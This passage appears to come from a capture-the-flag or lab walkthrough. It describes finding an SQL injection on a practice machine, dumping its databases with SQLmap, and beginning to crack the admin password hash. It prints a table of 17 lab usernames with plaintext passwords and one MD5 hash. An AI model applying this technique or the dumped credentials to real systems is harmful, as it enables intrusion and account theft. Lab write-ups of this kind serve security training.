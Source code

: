 ```
2022/11/30 18:40:58 Finished
```

I tried "/config.php" with no luck but when i tried "/session.php" something magically happened, the server redirected me to the "manage.php" tab and shown to me a "You are already logged in as admin." text, but unfortunately its not what I thought because we couldn't manage anything. I've tried to catch the request where the SQL was injectable, tried to feed SQLmap and it worked! We now have all the Database!

```
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+

```

```
Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```

As we have the hashed password we cracked them with crackstation:
